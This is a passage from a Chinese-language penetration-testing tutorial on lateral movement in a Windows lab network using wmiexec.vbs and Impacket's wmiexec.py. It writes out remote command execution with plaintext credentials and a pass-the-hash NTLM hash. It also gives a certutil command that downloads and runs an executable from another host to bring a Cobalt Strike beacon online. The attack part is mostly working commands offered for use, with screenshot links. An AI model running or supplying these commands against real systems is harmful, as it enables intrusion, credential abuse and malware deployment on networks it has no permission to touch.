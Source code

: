   
交互式 不适用cs  
  
  
cscript是windows自带的命令，但是这种方法不建议，因为要上传文件。而且cs无法做到交互式  
  
  
上传wmiexec.vbs，实战中这个文件也是疯狂被杀的。  
  
  
cscript //nologo wmiexec.vbs /shell 192.168.3.21 administrator Admin12345  
  
##### 利用3 wmiexec-impacket  
  
  
交互式 支持hash  
  
  
这种一般要用内网穿透的方法来进行，因为对方不一定有python环境，而且上传文件到目标机器本就是一个很不好的行为。  
  
```
python wmiexec.py sqlserver/administrator:admin!@#45@192.168.3.32
python wmiexec.py sqlserver/administrator:admin!@#45@192.168.3.32 "whoami"
python wmiexec.py -hashes :518b98ad4178a53695dc997aa02d455c sqlserver/administrator@192.168.3.32 "whoami"
```  
  
首先先建立一个socks节点  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7EfAh9LP635S955oictdUmLYwby8ib1icXvnq0b8OnMoHT4ba4s6M1FUNw/640?wx_fmt=png&from=appmsg "")  
  
  
然后proxifier配置代理服务器  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7aBRoOfDeKzcBFicpG6yj0BK2j9X4yplG0PaTHA7TEAa2hIZo96ttmWg/640?wx_fmt=png&from=appmsg "")  
  
  
然后python执行即可。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU77VDE2GNWg9b1RmCXepibSVIRt4EsY8dGT9W75XzwCLjzAJlDA3yAEBw/640?wx_fmt=png&from=appmsg "")  
  
  
获取一个shell  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7FBgcMm99Xs3SMAPfh21n9gHlCPW6iaFtH4kNibQ9KFc8Lia13xPcyqkkw/640?wx_fmt=png&from=appmsg "")  
  
  
上线也就是很简单了。  
  
```
python wmiexec.py sqlserver/administrator:admin!@#45@192.168.3.32 "certutil -urlcache -split -f http://192.168.3.31/3232.exe c:/3232.exe"

python wmiexec.py sqlserver/administrator:admin!@#45@192.168.3.32 "c:/3232.exe"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7S09dW3j0NtSFaJfrEic9ibYDc0rnFbwic6KropfEiaibFf7dFZhYAutJP5Q/640?wx_fmt=png&from=appmsg "")  
  
  
然后去cs正向连接即可上线！  
  